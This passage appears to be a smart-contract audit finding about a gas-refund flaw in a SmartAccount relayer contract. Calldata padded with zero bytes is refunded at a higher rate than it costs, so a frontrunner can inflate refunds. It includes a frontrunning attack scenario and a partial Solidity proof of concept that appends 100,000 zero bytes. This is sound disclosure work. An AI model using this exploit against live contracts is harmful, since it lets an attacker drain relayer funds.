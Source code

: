 An attacker could manipulate the calldata to increase the refund amount while spending less gas than what is calculated by the contract. To do this, the attacker could provide calldata with zero padded bytes of arbitrary length. This would only cost 4 gas per zero byte, but the refund would be calculated as 8 gas per calldata byte. As a result, the refund amount would be higher than the gas amount spent by the relayer.

### Attack Scenario

Let’s a smart wallet user signs a transaction. Some of the relayers trying to execute this transaction and send a transaction to the `SmartAccount` contract. Then, an attacker can frontrun the transaction, changing the transaction calldata by adding the zeroes bytes at the end.

So, the original transaction has such calldata:

```
abi.encodeWithSignature(RelayerManager.execute.selector, (...))
```

The modified (frontrun) transaction calldata:

```
// Basically, just add zero bytes at the end
abi.encodeWithSignature(RelayerManager.execute.selector, (...)) || 0x00[]
```

### Proof of Concept

The PoC shows that the function may accept the data with redundant zeroes at the end. At the code above, an attacker send a 100\_000 meaningless zeroes bytes, that gives a `100_000 * 4 = 400_000` additional gas refund. Technically, it is possible to pass even more zero bytes.

```solidity
pragma solidity ^0.8.12;

contract DummySmartWallet {
    function execTransaction(
        Transaction memory _tx,
        uint256 batchId,
        FeeRefund memory refundInfo,
        bytes memory signatures
    ) external {
        // Do nothing, just test that data with appended zero bytes are accepted by Solidity
    }
}

contract PoC {
    address immutable smartWallet;

    constructor() {
        smartWallet = address(new DummySmartWallet());
    }

    // Successfully call with original data
    function testWithOriginalData() external {
        bytes memory txCalldata = _getOriginalTxCalldata();

        (bool success, ) = smartWallet.call(txCalldata);
        require(success);
    }

    // Successfully call with original data + padded zero bytes
    function testWithModifiedData() external {
        bytes memory originalTxCalldata = _getOriginalTxCalldata();
        bytes memory zeroBytes = new bytes(100000);

        bytes memory txCalldata = abi.encodePacked(originalTxCalldata, zeroBytes);

```
